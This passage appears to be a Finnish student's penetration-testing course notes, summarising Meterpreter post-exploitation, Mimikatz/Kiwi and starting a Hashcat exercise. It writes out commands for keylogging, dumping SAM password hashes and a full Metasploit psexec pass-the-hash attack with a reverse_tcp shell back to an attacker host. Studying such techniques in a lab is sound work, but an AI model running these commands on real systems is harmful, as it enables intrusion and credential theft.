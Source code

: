 ```
- Käyttäjän työpöytä screenshot ```meterpreter > screenshot```
- Alustainfot ```meterpreter > sysinfo```
- Keylog ```meterpreter > ps explorer```
- LM ei niin turvallinen, NTLM - protocolla huomattavasti turvallisempi! Vain single hash. Sen takia siis, että 7 - merkkiä on nopeampi ja vähemmän kuormittavampi aukaista, kun 14 - kirjainta
- Lataa Meterprere's privilege extension, joka voi dumpata SAM - tietokannan, joka sisältä käyttänätunnukset ja salasanat ```meterpreter > use priv```
- Hakee kaikki käyttäjätunnukset ja hashatut salasanat ```meterpreter > run post/windows/gather/smart_hashdump```

*pass-the-hash*
- Hyväksyy salasanan ilman, että se tarkistaa tietääkö lähettäjä salasanan
- Kuka tahansa voi esittää tiettyä käyttäjää sen salasanalla

```
msf > use exploit/windows/smb/psexec```
msf exploit(psexec)> set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(psexec)> set LHOST 192.168.1.100
msf exploit(psexec)> set LPORT 443
msf exploit(psexec)> set RHOST 192.168.1.102
msf exploit(windows/smb/psexec) > set SMBUser Administrator
msf exploit(psexec)> set SMBPass  aad3b435b51404eeaad3b435b51404ee: e02bc503339d51f71d913c245d35b50b
SMBPass => aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b msf exploit(psexec)> exploit
```
Tässä siis vain esimerkistä saatu rakenne. Nuo komennot muuntuu hieman sitten tilanteiden mukaan

*Mimikatz ja Kiwi*
- Kiwi on siis moduuli Metasploitissa
- Sillä voi esim. juksuttaa domain controllereita verkossa jakamaan kaikki käyttäjätiedot
- Mimikatz hakee kaikki paikat, joissa salasanat usein on tallennettu, kiinnittyy prosessiin debuggerina ja yrittää extractata käyttäjän ja salasanan

Tässä on siis erittäin hyviä komentoja ja Meterpreterin käyttöä ihan käytännön harjoituksilla. Sen verran pitkä teksti, ettei kaikkea edes kannata tiivistää
Näyttää sen verran mielenkiintoiselta, että ajattelin kokeilla tuota sikälimikäli jossain kohtaa riittää aika siihen


## a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.
- Eli [Ohjeen](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/) ja aikaisemman tiivistelmän mukaan:

```
sudo apt-get -y install hashid hashcat wget
mkdir hashed
cd hashed
```

Kaliin valmiiksi asennettu

![image](https://github.com/user-attachments/assets/b3f3de40-fac1-4b78-92d1-e124a628b5b9)


Haetaan SecLististä rockyou.txt

```
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
tar xf rockyou.txt.tar.gz
rm rockyou.txt.tar.gz
```

```